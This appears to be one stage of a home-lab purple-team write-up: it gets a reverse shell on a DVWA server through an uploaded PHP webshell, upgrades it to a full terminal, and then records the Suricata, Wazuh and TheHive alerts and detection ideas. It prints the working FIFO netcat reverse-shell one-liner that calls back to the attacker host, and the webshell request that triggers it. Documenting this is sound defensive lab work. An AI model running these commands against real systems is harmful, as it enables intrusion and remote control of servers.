






# Stage 06 — Reverse Shell

> **Status:** Complete — evidence attached
> **Case:** [Case 01](../../04-Investigation/Cases/case-01-web-compromise.md)
> **Investigation:** [Phase 2 Deep Dive](../../04-Investigation/Deep-Dive-Attack-Chain-Investigation.md#phase-2-the-10-second-mistake-webshell-to-instant-root)
> **Evidence:** [attack](../../06-Resources/screenshots/attack-simulation/15.png) · [alert](../../06-Resources/screenshots/thehive-alert/7.png)

## Objective

Turn our one-line webshell into a live, interactive reverse shell back to Kali, then upgrade it to a full terminal with arrow keys, tab completion, and Ctrl+C support.

## Commands

### 1. Attacker Listener Setup (Kali Linux — 192.168.232.135)

Verify interface configuration on `eth0` and start a Netcat TCP listener on port 4444:

```bash
# Verify attacker IP address
ip a

# Launch Netcat listener on port 4444
nc -lvnp 4444
```

### 2. Reverse Shell Payload Trigger (via Web Shell)

Submit a named-pipe (FIFO) reverse shell one-liner through the web shell uploaded in Stage 05 (`shell.php`) via an HTTP GET request:

```bash
# Executed via browser GET request to DVWA web shell:
http://192.168.56.30/hackable/uploads/shell.php?cmd=rm+/tmp/f;mkfifo+/tmp/f;cat+/tmp/f|/bin/sh+-i+2>%261|nc+192.168.232.135+4444+>/tmp/f
```

Decoded command payload executed by the web server:
```bash
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 192.168.232.135 4444 > /tmp/f
```

### 3. Shell Stabilization and PTY Upgrade (Kali Netcat Session)

Upon receiving the connection, upgrade the raw `/bin/sh` shell to a fully interactive Bash pseudo-terminal:

```bash
# Spawn an interactive bash pseudo-terminal using Python
python3 -c 'import pty; pty.spawn("/bin/bash")'

# Background the netcat session (press Ctrl+Z)
# Set local terminal to raw mode to pass through control characters
stty raw -echo; fg

# Reset terminal settings and define terminal type
stty sane
export TERM=xterm
```

## What happened

1. **Setting up the listener:** On Kali (`192.168.232.135`), I checked my IP on `eth0` and started a Netcat listener on port 4444 (`nc -lvnp 4444`), waiting for the server to call back.
2. **Triggering the reverse connection:** Through our webshell (`shell.php`) from Stage 05, I sent a classic POSIX named-pipe FIFO one-liner: `rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 192.168.232.135 4444 > /tmp/f`.
3. **Getting the shell:** The web server executed the command as `www-data`. Immediately, an outbound TCP connection phoned home to Kali on port 4444, handing us a live prompt: `www-data@dvwa:/var/www/html/hackable/uploads$`.
4. **Upgrading to a real terminal:** Raw Netcat shells are clumsy—pressing Ctrl+C kills the whole connection, and tab completion doesn't work. To fix this, I spawned a pseudo-terminal using Python (`pty.spawn("/bin/bash")`), backgrounded the shell with `Ctrl+Z`, set my local terminal to raw mode (`stty raw -echo; fg`), and ran `stty sane; export TERM=xterm`. Now I had a stable, interactive Bash shell ready for privilege escalation.

## Evidence

### Attack Screenshots


*Figure 6.1: Kali Linux interface verification (`192.168.232.135`) and Netcat listener initialized on port 4444.*


*Figure 6.2: Browser request triggering the FIFO reverse shell one-liner via `shell.php`.*


*Figure 6.3 (Top Half): Reverse shell connection established from `192.168.232.161` as `www-data`, followed by Python PTY bash spawning and stty terminal configuration.*

### Alert Screenshots


*Figure 6.4: TheHive alert overview displaying reverse shell connection detection from dvwa to Kali (Alert #14 wzb-81bb1f83f7, Alert #15 wzb-ccae331b77).*


*Figure 6.5: TheHive Alert #15 detail — Linux Auditd Rule 100199 (web_process_creation) alert capturing /usr/bin/nc.openbsd with FIFO shell arguments (wzb-ccae331b77).*


*Figure 6.6: TheHive Alert #14 detail — Suricata Rule 86601 / SID 3400020 alert detecting POSSBL SCAN SHELL M-SPLOIT TCP outbound connection on TCP port 4444 (wzb-81bb1f83f7).*

## Alert observed

| Source | Rule / Signature | Rule ID | TheHive Alert | Severity | Status |
|---|---|---|---|---|---|
| Suricata / Wazuh | Outbound Reverse Shell Connection (TCP port 4444) | Suricata SID 3400020 / Wazuh Rule 86601 | TheHive Alert #14 (`7.png`, `7.2.png` / `wzb-81bb1f83f7`) | High (3) | **Detected** |
| Linux Auditd | Command execution under www-data: `/usr/bin/nc.openbsd` FIFO reverse shell | Wazuh Auditd Rule 100199 (`web_process_creation`) | TheHive Alert #15 (`7.1.png` / `wzb-ccae331b77`) | High (3) | **Detected** |

## MITRE ATT&CK

| Tactic | Technique | ID | Sub-technique |
|---|---|---|---|
| Execution | Command and Scripting Interpreter | T1059 | Unix Shell (T1059.004) |

## Detection opportunities

- **Process Lineage Anomaly Detection:** Web server daemons (`apache2`, `httpd`, `php-fpm`) should never spawn shell binaries (`/bin/sh`, `/bin/bash`) or network tools (`nc`, `netcat`, `curl`, `socat`). Wazuh and Auditd should alert immediately when `parent_process = apache2` and `child_process in (/bin/sh, /bin/bash, python3)`.
- **Command-Line Telemetry:** Watch for classic reverse shell one-liners: `mkfifo`, `/tmp/f`, and pipe redirections like `| /bin/sh -i 2>&1 | nc`.
- **Outbound Network Telemetry:** Suricata or Zeek monitoring network egress from the DMZ/web tier to untrusted subnets or external addresses on non-standard egress ports (e.g., 4444/TCP).
- **Ephemeral File Auditing:** Watch for the creation of FIFO pipes or suspicious files in `/tmp/` created by service users like `www-data`.

## Notes

- **Network Interfaces:** DVWA is dual-homed: `ens37` (`192.168.232.161/24`) interfaces with the management/attacker network, while `ens33` (`192.168.56.30/24`) connects to the isolated internal Active Directory lab. The callback connected directly over the management subnet.
- **Operational Impact:** This stage marked the transition from one-off web requests to an interactive command shell, setting up our privilege escalation to root.
